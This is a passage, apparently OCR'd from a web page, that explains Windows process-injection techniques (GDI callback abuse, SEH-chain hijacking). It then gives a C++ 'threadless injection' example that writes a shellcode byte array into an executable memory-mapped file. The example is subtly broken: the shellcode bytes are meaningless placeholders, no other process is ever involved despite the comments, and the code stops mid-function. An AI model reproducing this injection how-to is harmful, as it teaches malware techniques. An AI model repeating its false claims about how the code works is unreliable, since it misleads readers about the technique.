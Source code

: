 #### 2. **Callback Exploitation**
   - **Example: GDI Callback**
     - GDI (Graphics Device Interface) callbacks can be exploited to execute shellcode. By placing shellcode in the memory area used by GDI objects (like bitmaps), the attacker can trigger the shellcode when a callback function is executed.

#### 3. **Exploiting Structured Exception Handling (SEH)**
   - An attacker can manipulate the SEH chain in a process to point to their shellcode. When an exception occurs, the shellcode is executed as part of the exception handling process.

### Simplified Example of Threadless Process Injection Using a Memory-Mapped File

Here’s a simplified example in C++ demonstrating how memory-mapped files can be used for injection:

```cpp
#include <windows.h>
#include <iostream>

int main() {
    // Example shellcode that opens a MessageBox
    unsigned char shellcode[] = {
        0x90, 0x90, 0x90, 0x90,  // NOP sled
        0x6a, 0x00,              // push 0 (MB_OK)
        0x68, 0x00, 0x30, 0x00, 0x00, // push "Hello"
        0x68, 0x00, 0x20, 0x00, 0x00, // push "Message"
        0xB8, 0xE0, 0x07, 0x00, 0x00, // mov eax, MessageBoxA address
        0xFF, 0xD0                 // call eax
    };

    // Create a memory-mapped file
    HANDLE hMapFile = CreateFileMapping(
        INVALID_HANDLE_VALUE,  // use paging file
        NULL,                  // default security
        PAGE_EXECUTE_READWRITE, // read/write/executable access
        0,                     // max. object size
        sizeof(shellcode),     // size of hFile
        L"Local\\MyMap");      // name of mapping object

    if (hMapFile == NULL) {
        std::cerr << "Could not create file mapping object (" << GetLastError() << ").\n";
        return 1;
    }

    // Map the view of the file
    LPVOID lpBase = MapViewOfFile(
        hMapFile,               // handle to map object
        FILE_MAP_ALL_ACCESS,    // read/write access
        0,                      // offset high
        0,                      // offset low
        sizeof(shellcode));     // number of bytes to map

    if (lpBase == NULL) {
        std::cerr << "Could not map view of file (" << GetLastError() << ").\n";
        CloseHandle(hMapFile);
        return 1;
    }

    // Copy the shellcode into the mapped memory
    memcpy(lpBase, shellcode, sizeof(shellcode));

    // Now, if the target process accesses this memory, the shellcode will execute.
    // Trigger execution by causing the target process to access this memory.

```